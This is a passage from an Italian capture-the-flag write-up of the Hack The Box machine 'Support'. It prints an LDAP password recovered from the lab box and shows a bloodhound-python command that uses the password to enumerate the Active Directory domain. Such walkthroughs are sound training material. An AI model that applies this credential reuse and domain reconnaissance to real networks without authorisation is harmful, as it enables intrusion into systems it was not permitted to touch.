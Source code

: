   <img src="/Immagini/Windows-Box/Support/support-12.png"/>
</p>

Quindi ottengo la seguente password:

```text
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

A questo punto utilizzo _bloodhound_ per avere un quadro completo del dominio. In particolare, sfrutto la versione python per ricavare le informazioni da caricare sul programma:

```bash
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
```

<p align="center">
  <img src="/Immagini/Windows-Box/Support/support-13.png"/>
</p>
